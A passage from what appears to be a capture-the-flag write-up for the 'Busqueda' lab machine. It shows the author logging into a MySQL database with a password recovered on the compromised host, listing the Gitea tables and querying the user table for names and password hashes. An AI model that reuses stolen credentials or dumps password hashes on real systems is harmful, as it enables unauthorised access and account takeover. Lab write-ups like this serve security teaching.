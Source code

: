 ##### Connecting to the mysql database

```bash
svc@busqueda:/var/www/app$ mysql -h 172.19.0.3 -u gitea -pyuiu1hoiu4i5ho1uh  
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 874
Server version: 8.0.31 MySQL Community Server - GPL

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> 
```

And we are in. Now let's explore the database and find if there is any useful information.

```bash
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| gitea              |
| information_schema |
| performance_schema |
+--------------------+

mysql> use gitea;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed

mysql> show tables;
+---------------------------+
| Tables_in_gitea           |
+---------------------------+
---[snip]---
| two_factor                |
| upload                    |
| user                      |
| user_badge                |
| user_open_id              |
---[snip]---

mysql> SHOW COLUMNS FROM user;
+--------------------------------+---------------+------+-----+---------+----------------+
| Field                          | Type          | Null | Key | Default | Extra          |
+--------------------------------+---------------+------+-----+---------+----------------+
| id                             | bigint        | NO   | PRI | NULL    | auto_increment |
| lower_name                     | varchar(255)  | NO   | UNI | NULL    |                |
| name                           | varchar(255)  | NO   | UNI | NULL    |                |
| full_name                      | varchar(255)  | YES  |     | NULL    |                |
| email                          | varchar(255)  | NO   |     | NULL    |                |
| keep_email_private             | tinyint(1)    | YES  |     | NULL    |                |
| email_notifications_preference | varchar(20)   | NO   |     | enabled |                |
| passwd                         | varchar(255)  | NO   |     | NULL    |                |
---[snip]---

mysql> SELECT name, passwd FROM user;       
```